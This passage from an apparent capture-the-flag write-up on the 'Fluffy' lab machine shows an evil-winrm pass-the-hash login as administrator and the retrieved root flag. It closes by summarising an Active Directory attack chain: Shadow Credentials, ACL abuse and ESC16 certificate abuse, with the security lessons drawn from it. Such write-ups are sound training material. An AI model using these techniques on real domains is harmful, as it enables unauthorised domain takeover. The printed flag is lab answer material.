└─$ evil-winrm -i 10.129.202.3 -u 'administrator' -H '<hash>'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

{}

   ```bash
  *Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
  86462761aea06e38247193401ba674bf
  ```

{}

## Conclusion

In this challenge, we compromised an Active Directory environment by chaining multiple misconfigurations and weak practices. The initial foothold was gained by exploiting weak SMB and LDAP credentials, allowing us to enumerate users and services within the domain.

Further analysis revealed over-permissive group memberships and exploitable Active Directory permissions. Using Shadow Credentials, we compromised a service account and gained remote PowerShell access through WinRM. Additionally, a vulnerable certificate authority was abused via a misconfigured UPN, allowing us to request a valid administrator certificate.

With this certificate, we authenticated as Domain Admin, achieving full control over the domain controller and retrieving the `root` flag.

This machine highlights several Active Directory security issues:

- Weak password practices and credential reuse.
- Over-permissive ACLs on user and service accounts.
- Lack of monitoring on sensitive AD attributes like KeyCredentialLink and UserPrincipalName.
- A vulnerable AD Certificate Services configuration, exposing the domain to ESC16 attacks.

Overall, Fluffy demonstrates how misconfigured AD environments can be chained together to escalate privileges from a standard user to full Domain Admin compromise
